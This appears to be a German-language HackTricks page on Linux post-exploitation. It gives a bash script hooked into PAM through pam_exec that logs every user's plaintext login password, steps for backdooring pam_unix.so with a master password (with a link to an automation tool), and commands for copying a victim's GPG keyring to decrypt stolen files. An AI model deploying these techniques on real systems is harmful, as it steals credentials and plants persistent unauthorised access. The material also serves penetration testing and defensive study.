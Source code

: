 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## Sniffing Logon Passwords with PAM

Konfigurieren wir ein PAM-Modul, um jedes Passwort zu protokollieren, das ein Benutzer zum Einloggen verwendet. Wenn du nicht weißt, was PAM ist, siehe:


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**For further details check the [original post](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Dies ist nur eine Zusammenfassung:

**Technikübersicht:**
Pluggable Authentication Modules (PAM) bieten Flexibilität bei der Verwaltung der Authentifizierung auf Unix-basierten Systemen. Sie können die Sicherheit verbessern, indem Login-Prozesse angepasst werden, stellen jedoch auch ein Risiko dar, wenn sie missbraucht werden. Diese Zusammenfassung skizziert eine Technik, um Login-Anmeldeinformationen mit PAM zu erfassen, sowie Gegenmaßnahmen.

**Erfassung von Anmeldeinformationen:**

- Ein bash-Skript mit dem Namen `toomanysecrets.sh` wird erstellt, um Login-Versuche zu protokollieren und dabei Datum, Benutzername (`$PAM_USER`), Passwort (über stdin) und die IP des Remote-Hosts (`$PAM_RHOST`) in `/var/log/toomanysecrets.log` zu erfassen.
- Das Skript wird ausführbar gemacht und in die PAM-Konfiguration (`common-auth`) eingebunden, indem das Modul `pam_exec.so` mit Optionen verwendet wird, um leise zu laufen und das Authentifizierungs-Token dem Skript zur Verfügung zu stellen.
- Der Ansatz zeigt, wie ein kompromittierter Linux-Host ausgenutzt werden kann, um Anmeldeinformationen unauffällig zu protokollieren.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**For further details check the [original post](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Dies ist nur eine Zusammenfassung:

Das Pluggable Authentication Module (PAM) ist ein unter Linux verwendetes System zur Benutzer-Authentifizierung. Es basiert auf drei Hauptkonzepten: **username**, **password**, und **service**. Konfigurationsdateien für jeden Service befinden sich im Verzeichnis `/etc/pam.d/`, wo shared libraries die Authentifizierung übernehmen.

**Objective**: Modifiziere PAM, um Authentifizierung mit einem bestimmten Passwort zuzulassen und das tatsächliche Benutzerpasswort zu umgehen. Dies konzentriert sich besonders auf die `pam_unix.so` shared library, die von der Datei `common-auth` verwendet wird, die von fast allen Services zur Passwortüberprüfung eingebunden wird.

### Steps for Modifying `pam_unix.so`:

1. **Authentifizierungs-Direktive lokalisieren** in der Datei `common-auth`:
- Die Zeile, die für die Überprüfung des Benutzerpassworts verantwortlich ist, ruft `pam_unix.so` auf.
2. **Quellcode ändern**:
- Füge eine Bedingung in die `pam_unix_auth.c` Quelldatei ein, die den Zugang gewährt, wenn ein vordefiniertes Passwort verwendet wird; andernfalls läuft der normale Authentifizierungsprozess weiter.
3. **Kompilieren und Ersetzen** der modifizierten `pam_unix.so`-Bibliothek im entsprechenden Verzeichnis.
4. **Testen**:
- Mit dem vordefinierten Passwort wird über verschiedene Services (login, ssh, sudo, su, screensaver) Zugriff gewährt, während die normale Authentifizierung weiterhin unverändert funktioniert.

> [!TIP]
> You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

## GPG loot durch Verlagerung des homedir entschlüsseln

Wenn du eine verschlüsselte `.gpg`-Datei und das `~/.gnupg`-Verzeichnis eines Nutzers (pubring, private-keys, trustdb) findest, diese aber wegen GnuPG homedir-Berechtigungen/Locks nicht entschlüsseln kannst, kopiere den keyring an einen beschreibbaren Ort und nutze ihn als dein GPG home.

Typische Fehler, die ohne diesen Schritt auftreten: "unsafe ownership on homedir", "failed to create temporary file", oder "decryption failed: No secret key" (weil GPG das originale homedir nicht lesen/schreiben kann).

Ablauf:
```bash
# 1) Stage a writable homedir and copy the victim's keyring
mkdir -p /dev/shm/fakehome/.gnupg
cp -r /home/victim/.gnupg/* /dev/shm/fakehome/.gnupg/
# 2) Ensure ownership & perms are sane for gnupg
chown -R $(id -u):$(id -g) /dev/shm/fakehome/.gnupg
chmod 700 /dev/shm/fakehome/.gnupg
# 3) Decrypt using the relocated homedir (either flag works)
GNUPGHOME=/dev/shm/fakehome/.gnupg gpg -d /home/victim/backup/secrets.gpg
# or
gpg --homedir /dev/shm/fakehome/.gnupg -d /home/victim/backup/secrets.gpg
```
Wenn das geheime Schlüsselmaterial in `private-keys-v1.d` vorhanden ist, entsperrt und entschlüsselt GPG ohne Abfrage einer Passphrase (oder fordert zur Eingabe auf, wenn der Schlüssel geschützt ist).


## Referenzen

- [0xdf – HTB Environment (GPG homedir relocation to decrypt loot)](https://0xdf.gitlab.io/2025/09/06/htb-environment.html)
- [GnuPG Manual – Home directory and GNUPGHOME](https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration-Options.html#index-homedir)

{{#include ../../banners/hacktricks-training.md}}
